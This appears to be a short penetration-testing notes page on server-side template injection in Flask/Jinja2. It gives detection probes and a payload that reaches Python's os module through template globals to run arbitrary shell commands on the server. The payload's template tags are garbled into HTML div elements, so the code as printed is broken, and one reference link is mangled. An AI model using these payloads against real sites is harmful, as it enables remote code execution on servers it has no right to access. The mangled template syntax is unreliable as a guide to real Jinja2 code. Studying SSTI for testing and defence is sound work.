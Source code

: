 ```yaml
---
title: Server Side Templates Injections (SSTI)
category: Web
order: 5
---
```


SSTI (Server Side Templates Injections) occurs when an attacker is able to use native template syntax to inject a malicious payload into a template, which is then executed server-side.

There are different **frameworks** that uses **templates**, this guide could help to detect which is and exploit them.

![Methodology from PayloadsAllTheThings](/hackingnotes/images/ssti_graph.png)

# Flask

Flask is a framework for web applications written in Python and developed from the Werkzeug and Jinja2 tools.

## Syntax SSTI

```
{{7*7}}
{{ varname }}

<div data-gb-custom-block data-tag="if" data-1='1'></div>PRINT<div data-gb-custom-block data-tag="else">NOPRINT</div>
```

## RCE (Remote Code Execution)

```
<div data-gb-custom-block data-tag="for"><div data-gb-custom-block data-tag="if" data-0='warning'>{{x()._module.__builtins__['__import__']('os').popen("COMMAND").read()}}</div></div>
```

To bypass some restrictions take a look at the following resources:

# References

* [https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti](https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti)
* [https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)
* h[ttps://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2)
